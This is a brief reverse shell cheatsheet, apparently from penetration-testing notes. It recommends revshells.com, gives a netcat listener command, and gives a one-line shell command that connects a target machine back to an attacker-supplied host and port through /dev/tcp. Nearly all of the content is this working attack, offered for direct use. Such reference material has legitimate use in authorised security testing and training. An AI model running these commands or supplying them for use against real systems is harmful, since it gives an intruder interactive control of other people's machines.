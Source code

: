 The easiest way to generate a reverse shell is to use https://www.revshells.com/
Otherwise this cheatsheet reports some possible reverse shells.

## Listener

The listener can wait with:

```shell
nc -lvnp $PORT
```

Then a shell must be triggered on the target system.

## Target

On the target this needs to be executed.

```shell
sh -i >& /dev/tcp/$HOST/$PORT 0>&1
```